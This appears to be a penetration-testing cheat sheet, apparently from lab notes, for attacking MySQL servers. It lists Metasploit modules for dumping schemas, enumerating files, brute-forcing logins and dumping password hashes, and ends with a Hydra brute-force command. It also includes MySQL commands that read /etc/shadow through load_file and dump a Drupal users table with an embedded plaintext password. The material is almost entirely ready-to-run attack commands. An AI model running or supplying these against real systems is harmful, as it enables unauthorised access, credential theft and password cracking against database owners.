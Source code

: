     - auxiliary/scanner/mysql/mysql_writable_dirs
        
        ```powershell
        Module 8: auxiliary/scanner/mysql/mysql_writable_dirs
        Commands:
        use auxiliary/scanner/mysql/mysql_writable_dirs
        set RHOSTS 192.76.252.3
        set USERNAME root
        set PASSWORD twinkle
        set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
        ru
        
        ```
        
- Commands
    
    ```powershell
    mysql -h 192.71.145.3 -u root select load_file("/etc/shadow");
    mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
    mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; select * from users;'
    mysql -h 192.71.145.3 -u root
    mysql -h db -u user-proot database -e 'show tables;’
    
    show databases;
    use database;
    select count(*) from authors;
    ```
    
- Post Explpoit
    
    ```bash
    
    msfconsole
    use auxiliary/scanner/mysql/mysql_schemadump
    set RHOSTS 192.71.145.3
    set USERNAME root
    set PASSWORD ""
    exploit
    
    use auxiliary/scanner/mysql/mysql_writable_dirs
    set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
    set RHOSTS 192.71.145.3
    set VERBOSE false
    set PASSWORD ""
    exploit
    
    use auxiliary/scanner/mysql/mysql_file_enum
    set RHOSTS 192.71.145.3
    set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
    set PASSWORD ""
    exploit
    
    use auxiliary/scanner/mysql/mysql_login
    set RHOSTS 192.149.194.3
    set USERNAME root
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
    set VERBOSE false
    set STOP_ON_SUCCESS true
    exploit
    
    use auxiliary/scanner/mysql/mysql_hashdump
    set RHOSTS 192.71.145.3
    set USERNAME root
    set PASSWORD ""
    exploit
    
    hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
    192.149.194.3 mysql
    ```